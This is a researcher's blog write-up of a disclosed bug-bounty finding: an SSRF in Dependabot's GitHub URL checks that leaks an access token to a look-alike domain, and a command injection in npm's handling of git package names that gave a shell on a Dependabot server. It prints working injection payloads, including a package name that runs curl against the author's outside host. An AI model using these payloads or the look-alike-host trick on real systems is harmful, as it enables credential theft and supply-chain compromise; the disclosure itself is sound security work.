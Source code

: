 ```yaml
---
title: "Diving into Dependabot along with a bug in npm"
date: 2021-06-27T00:00:00+09:00
---
```


If you are developing some applications on GitHub, you might have seen pull requests from Depedabot.
It automatically finds outdated vulnerable packages and sends pull requests to fix that.

![](screenshot1.png)

It is enabled by default and can make a commit on `dependabot/*` branch of many repositories on GitHub.
Therefore, I thought If I could gain a controll of Dependabot, I can steal write permissions of those repositories.
So I started to look into Dependabot.

# SSRF in Dependabot

The core module of the Dependabot is open-sourced (<https://github.com/dependabot/dependabot-core>), so we can use Dependabot outside of GitHub.
To start the investigation, I prepared an local Dependabot environment following [the official sample code](https://github.com/dependabot/dependabot-script).

This sample code requires GitHub access token to fetch the source code of the repository.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb?slice=16:23"></script>

My first idea is to deceiving a Dependabot so that the bot will sends the token to my server instead of GitHub.
This idea seems possible because there are flaws in URL validations.

One of the validations is to check whether the URL contains `github.com` or not.
Obviously, this validation accepts a URL such as `github.com.mocos.kitchen`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=7:8"></script>

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=54:55"></script>

Another one uses following regexp which accepts a URL such as `git+https://github.com.mocos.kitchen/username/repo`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_parser.rb?slice=27:37"></script>

Based on these tricks, Dependabot treats `git+https://github.com.mocos.kitchen/username/repo` as a valid GitHub's URL.

## Token stealing demo

To proof this concept, I created [a sample repository](https://github.com/tyage/dependabot-test-app) that includes following `package.json` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/package.json"></script>

Next, I updated the `credentials`, `repo_name` and `dependency_name` in [update-scripts.rb](https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb) from the official sample code so that we can run dependency checker against the sample repository I created.
When I run the script, my server - `github.com.mocos.kitchen` - received a request containing GitHub Access Token.

It means, if someone run a dependency checker against malicious repository, their GitHub Access Token will be stolen!

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.142.0 excon/0.79.0 ruby/2.6.6 (x86_64-darwin20) (+https://github.com/dependabot/dependabot-core)
Authorization: Basic eC1hY2Nlc3MtdG9rZW46Z2hw*************************************
Accept-Encoding: deflate, gzip
```

## First dive into a Dependabot server

Next, in order to try this attack in GitHub environment, I enabled Dependabot alerts in the sample repository.
We can do this by simply creating a `.github/dependabot.yml` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/.github/dependabot.yml"></script>

I successfully received a HTTP request from a Dependabot in GitHub.
But contrary to my expectation, there is no GitHub Access Token in the request.
Afterwards, it turns out that those servers are using special HTTP proxy which enalbes the bot to access target repository without GitHub Access Token.

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.156.4 excon/0.83.0 ruby/2.7.1 (x86_64-linux-gnu) (+https://github.com/dependabot/dependabot-core)
Accept-Encoding: gzip
```

I couldn't steal the token from GitHub's Dependabot server by SSRF, but after some investigation, I found another bug.

# Get the shell of a Dependabot server

When I tried some payload, I came across with a pattern that triggers a shell command in Dependabot server.
With the package name `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);?/...`, a shell command `curl$IFS@mocos.kitchen:3001` was executed and we could see the request!

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test3/blob/a81ac0bb60ac5aad66fa3191b5276f633a6d421d/package.json"></script>

I got the shell of the Dependabot server suddenly, but unfortunately, what we can do in the server is limited.
Here is what I could do:

- Access to the internal HTTP proxy which enables us to access to the target GitHub repository
- Access to the internal API server which enalbes us to create a pull request as a Dependabot
- Bitcoin mining :)

Therefore, we couldn't obtain read/write access of other user's repository.
(If we can pwn the internal HTTP proxy or API server, it will allow us to escalate the permission, I guess.)

Even though I couldn't get the access to other user's repository, I could impersonate as a verified Dependabot account and create a commit and pull request by calling internal API.

<https://github.com/tyage/dependabot-test3/pull/31>

![https://github.com/tyage/dependabot-test3/pull/31](screenshot2.png)

![https://github.com/tyage/dependabot-test3/pull/31](screenshot3.png)

## RCE in npm

By the way, what was happend to Dependabot when I changed the package name to `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);...`?
I found that the command was executed in `run_npm_7_top_level_updater` method.
In this method, the bot runs `npm install` command with `--ignore-scripts --package-lock-only` arguments so that it can see if the lock file is updated without running install scripts.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_updater/npm_lockfile_updater.rb?slice=182:193"></script>

Therefore, I thought Dependabot doesn't escape the arguments, but it does properly escapes all command arguments.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/common/lib/dependabot/shared_helpers.rb?slice=273:274"></script>

So I manually run `npm install` command to see what was happened and...

```
$ npm install 'git+https://github.com/tyage/sample-package;echo HELLO > a;' --ignore-scripts
npm ERR! code 127
npm ERR! command failed
npm ERR! command git ls-remote ssh://git@github.com/tyage/sample-package;echo HELLO > a; .git
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd HEAD
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/heads/main
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/4.0.0
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/5.0.0
npm ERR! zsh:1: command not found:  .git

npm ERR! A complete log of this run can be found in:
npm ERR!     /Users/tyage/.npm/_logs/2021-04-06T09_39_20_675Z-debug.log
$ cat a
HELLO
```

Yes, the bug is in npm!
Even if there is a `--ignore-scripts` option, we can execute a shell command injected in a package name!

When we call `npm install` command with `git+https://...` package name, `git ls-remote` command is triggered using `child_process.spawn` method.

<script src="https://gist-it.appspot.com/https://github.com/npm/cli/blob/dedb9c8f8b0891b30aa76e60cdb1c4f0f9b2f22f/node_modules/%40npmcli/promise-spawn/index.js?slice=35:36"></script>

Also, if `child_process.spawn` method is called with `shell` option, [the command will be run inside of the shell](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options).

npm passes `opts` variable, which contains npm config, as an option argument.
It means `opts.shell` is same with [`shell` config](https://docs.npmjs.com/cli/v7/using-npm/config#shell) which default value is a `$SHELL` environment variable or `bash` on Posix

You can see your config of the npm with `npm config` command.

```
$ npm config get shell
/bin/zsh
```

Summarizing the above, npm calls `child_process.spawn` so that they can execute `git ls-remote 'git+https://....'`, but since they set the `shell` option, malicious shell command - starts from `;` or `$(` - in the package name is evaluated.

I reported this bug to the teams and [it was resolved in npm 7.10.0](https://github.com/npm/git/pull/29).
I asked if they issue CVE but they answered they will not.

# Timeline

I reported SSRF to Dependabot and RCE to npm, and received bounties $617 and $7,500 respectively.

Interestingly, both of them are in the scope of [GitHub Bug Bounty Program](https://hackerone.com/github).

Report to Dependabot:

- **2021/03/31 08:50:30 UTC** Reported Dependabot issue
- **2021/04/23 09:54:22 UTC** Bounty Rewarded

Report to npm:

- **2021/04/06 10:23:49 UTC** Reported npm issue
- **2021/04/07 17:53:57 UTC** Issue triaged
- **2021/04/28 19:41:59 UTC** Issue patched
- **2021/05/04 14:42:21 UTC** Bounty Rewarded

